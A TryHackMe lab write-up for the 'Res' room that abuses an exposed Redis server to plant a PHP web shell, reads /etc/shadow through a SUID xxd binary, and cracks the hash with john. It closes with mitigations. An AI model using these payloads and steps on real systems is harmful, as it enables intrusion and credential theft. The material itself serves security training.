 [Res](https://tryhackme.com/room/res)


**Date:** [21/05/2025]  
**Difficulty:** [Easy]  
**Objective:** Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.171.200]  
**Service/Ports:** [e.g., 6379/tcp, 80/HTTP]  
**Entry Point:** [redis service]  
**Privilege Escalation:** [SUID binary (xxd)]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

### Passive
- Subdomain enumeration
- WHOIS
- Google dorking

## Active

nmap -sS -sV -p- 10.10.171.200       
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```


----

## 5. Exploitation

 Redis Access:

    Include commands/tools used:
´´´
    redis-cli -h 10.10.171.200 -p 6379

    10.10.171.200:6379> help
    redis-cli 7.0.15

To get help about Redis commands type:
     "help @<group>" to get a list of commands in <group>
      "help <command>" for help on <command>
      "help <tab>" to get a list of possible help topics
      "quit" to exit

To set redis-cli preferences:
      ":set hints" enable online hints
      ":set nohints" disable online hints
Set your preferences in ~/.redisclirc`
´´´

Checked if Writing Files allowed and created a shell payload:

´´´
10.10.171.200:6379> config set dir /var/www/html
OK
10.10.171.200:6379> config set dbfilename shell.php
OK
10.10.171.200:6379> set payload "<?php system($_GET['cmd']); ?>"
OK
10.10.171.200:6379> save
OK
´´´

Created a listener:
´´´
nc -lvnp 4444
´´´

Gained Access As: www-data


----

## 6. Privilege Escalation

    Method: SUID

    Tool Used: xxd, GTFOBins

    Commands:
´´´
whoami
sudo -l
ls -la
ls /home/vianka
env
cat /etc/crontab
find / -perm -4000 -type f 2>/dev/null
´´´

Findings:

´´´´
First flag in: /home/vianka/user.txr
´´´


/usr/bin/xxd

GTOFBins:
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r

Now, able to read the /etc/shadow file:
´´´
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
´´´

To crack the password:
´´´
echo '$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0' > shadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
sing default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beautiful1       (?)     
1g 0:00:00:00 DONE (2025-05-21 10:22) 1.886g/s 2415p/s 2415c/s 2415C/s kucing..poohbear1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
´´´ 
su vianka
´´´

Escalated To: vianka

----

## 7. Post Exploitation

    Passwords: beautiful1 

    Hashes: $6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0

    Escalated To: vianka for last flag inside /root/root.txt

----

## 8. Flags / Proof

    User Flag: thm{red1s_rce_w1t***********}

    Root Flag: thm{xxd_pr**********}

    Other Credentials / Loot:

        
----

## 9. Mitigations

| Vulnerability              | Risk   | Suggested Mitigation                                                                                                                                  |
|----------------------------|--------|-------------------------------------------------------------------------------------------------------------------------------------------------------|
| Redis Server Exposure      | High   | Add requirepass StrongPassword in redis.conf to force login;  Block port 6379 externally. Allow only trusted IPs via iptables, ufw, or cloud firewall.|     
| SUID on xxd                | High   | Remove SUID Bit from Unnecessary Binaries                                                                                                             |
| Weak Password              |High    | Enforce long, complex passwords with expiration policies.                                                                                             |

----

## 10. Notes

    Time spent: [e.g., 1 hour]

    Tools used: nmap, redis-cli, xxd

    Lessons learned: [Used Redis to drop a PHP reverse shell in the web root by abusing CONFIG and SAVE; xxd was incorrectly SUID — uncommon and dangerous. Misconfigurations are low-hanging fruit — but they’re often all it takes.]
    Lessons learned: [Add reflections]
